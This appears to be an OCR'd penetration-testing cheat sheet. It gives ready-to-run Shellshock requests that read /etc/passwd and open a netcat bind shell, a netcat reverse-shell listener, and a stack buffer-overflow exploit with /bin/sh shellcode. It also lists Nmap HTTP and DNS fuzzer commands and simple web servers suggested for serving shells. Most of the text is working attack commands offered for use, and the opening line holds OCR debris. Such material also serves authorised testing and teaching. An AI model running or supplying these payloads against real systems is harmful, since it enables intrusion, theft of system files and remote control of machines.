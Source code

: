 cat file (view file contents)
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

Shell Shock run bind shell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

Shell Shock reverse Shell
nc -l -p 443

Buffer Overflow Exploits

Pass 1000 A’s as a parameter
./r00t $(python -c 'print "A" * 1000')

Random Pattern Create
/usr/share/metasploit-framework/tools# ruby pattern_create.rb 1000

Determine Pattern offset
ruby pattern_offset.rb 0x6a413969

Pass shell with offset value
env - ./r00t $(python -c 'print "A"*268 + "\x80\xfc\xff\xbf" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
# id

From Fuzzing to Zero Day
https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/

Nmap Fuzzers:

NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d

File Transfers
Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

Simple Local Web Servers

Run a basic http server, great for serving up shells etc
python -m SimpleHTTPServer 80

Run a basic Python3 http server, great for serving up shells etc
python3 -m http.server

Run a ruby webrick basic http server
ruby -rwebrick -e "WEBrick::HTTPServer.new
(:Port => 80, :DocumentRoot => Dir.pwd).start"
